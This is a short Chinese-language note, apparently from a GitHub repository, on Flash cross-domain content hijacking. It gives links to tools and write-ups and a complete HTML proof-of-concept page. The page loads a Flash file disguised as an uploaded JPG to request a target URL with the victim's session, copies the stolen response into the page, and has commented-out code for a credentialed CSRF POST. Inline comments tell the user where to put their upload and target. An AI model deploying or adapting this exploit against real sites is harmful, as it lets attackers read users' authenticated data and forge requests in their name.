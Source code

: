 ## flash跨域劫持
[CrossSiteContentHijacking](https://github.com/nccgroup/CrossSiteContentHijacking)
[flash-xdomain-xploit](https://github.com/gursev/flash-xdomain-xploit)
[freebuf](http://www.freebuf.com/articles/web/37432.html)
[wooyun——flash-csrf]
```
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gbk"/>
<title>csrftest</title>
<script>
function Connection(Sendtype,url,content,callback){
    if (window.XMLHttpRequest){
        var xmlhttp=new XMLHttpRequest();
    }
    else{
        var xmlhttp=new ActiveXObject("Microsoft.XMLHTTP");
    } 
    xmlhttp.onreadystatechange=function(){
        if(xmlhttp.readyState==4&&xmlhttp.status==200)
        {
            callback(xmlhttp.responseText);
        }
    }
    xmlhttp.open(Sendtype,url,true);
    xmlhttp.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    xmlhttp.withCredentials = "true";
    xmlhttp.send(content);
}
function sendToJavaScript(strData){
    var theDiv = document.getElementById("HijackedData");
    var content = document.createTextNode(strData);
    theDiv.appendChild(content);
    theDiv.innerHTML += '<br/>'
    //var posturl = "";   //如果是post，请去掉这三行的注释
    //var postdata= "";    
    //Connection("POST",posturl,postdata,function(callback){});
}
</script>
</head>
<body>

<div id=HijackedData></div>
<object id="myObject" width="100" height="100" allowscriptaccess="always" type="application/x-shockwave-flash" data="http://127.0.0.1/upload/2015.jpg">   //你上传的图片后缀的flash
<param name="AllowScriptAccess" value="always">
<param name="flashvars" value="input=http://127.0.0.1">  //你要请求的地址
</object>

</body>
</html> 
```
